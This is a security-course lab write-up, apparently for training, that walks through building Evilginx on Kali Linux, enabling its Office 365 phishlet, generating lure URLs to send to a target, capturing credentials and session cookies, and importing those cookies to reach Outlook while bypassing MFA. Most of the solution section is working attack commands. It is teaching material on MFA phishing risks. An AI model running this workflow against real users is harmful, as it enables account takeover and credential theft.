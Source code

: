 # LAB 3.4 - Evilginx for MFA - DEMO

### Lab Overview

This lab will guide you through setting up Evilginx on a Kali Linux machine and using the Office 365 phishlet to attempt a man-in-the-middle (MITM) attack that can potentially bypass Multi-Factor Authentication (MFA). This exercise demonstrates the importance of secure MFA implementation and the risks associated with phishing attacks targeting MFA-protected accounts.

---

### Lab Section

### **1. Prerequisites**

- A Kali Linux system with administrative privileges.
- Domain name and DNS management access (e.g., using Cloudflare).
- A registered domain name for phishing and subdomains setup.
- Basic knowledge of DNS and command line operations.

### **2. Environment Setup**

1. **Install Evilginx on Kali Linux:**
    - Set up and install Evilginx from the official repository.
    - Configure and start the Evilginx server.
2. **Configure Domain and DNS:**
    - Set up DNS records for your phishing domain to point to your Evilginx server.
3. **Set up Office 365 Phishlet:**
    - Enable and configure the Office 365 phishlet in Evilginx.
    - Test the phishlet setup to ensure it is functioning correctly.

### **3. Capturing and Using Tokens**

1. **Send Phishing Link:**
    - Create and distribute a phishing link to the target user.
2. **Capturing Credentials and Tokens:**
    - Capture credentials and session tokens from the target user.
3. **Bypass MFA and Access Account:**
    - Use the captured tokens to access the target’s Office 365 account, bypassing MFA.

### 

## Solution:

### Step 1: Environment Setup

https://www.youtube.com/watch?v=r4Y53s6P51k

### 1. Install Evilginx on Kali Linux

- **Install Go Language:**
    
    ```bash
    sudo apt update
    sudo apt install golang -y
    
    ```
    
- **Download and Install Evilginx:**
    
    ```bash
    git clone https://github.com/kgretzky/evilginx2.git
    cd evilginx2
    go build
    ./evilginx2
    
    ```
    
- **Configure and Start Evilginx:**
    
    ```bash
    ./evilginx
    
    ```
    
    - Evilginx will create the necessary directories and configurations.

### 2. Configure Domain and DNS

- **Set Up DNS Records:**
    - Go to your domain registrar or DNS management service (e.g., Cloudflare).
    - Create an `A` record pointing to your Evilginx server's IP.
    - For example:
        - `phish.yourdomain.com -> your_server_IP`

### 3. Set Up Office 365 Phishlet

- **Load Phishlet in Evilginx:**
    
    ```bash
    config domain phish.yourdomain.com
    config ip your_server_IP
    phishlets hostname o365 phish.yourdomain.com
    phishlets enable o365
    
    ```
    
- **Verify Phishlet Status:**
    
    ```bash
    
    phishlets
    
    ```
    
    - Ensure the Office 365 phishlet shows as `enabled` and `active`.

### Step 2: Capturing and Using Tokens

### 1. Send Phishing Link

- **Create Phishing Link:**
    
    ```bash
    lures create o365
    lures get-url 1
    
    ```
    
    - This command will generate a phishing URL. Send this link to the target.

### 2. Capturing Credentials and Tokens

- **Monitor Evilginx Logs:**
    - Watch the Evilginx terminal for incoming connections.
    - Captured credentials and tokens will be displayed in real time.

### 3. Bypass MFA and Access Account

- **Using Captured Tokens:**
    - Copy the session tokens from Evilginx.
    - Use a browser extension like EditThisCookie to import the session cookies into your browser.
- **Access Target Account:**
    - Navigate to `https://outlook.office.com` and observe the session being authenticated without triggering MFA.
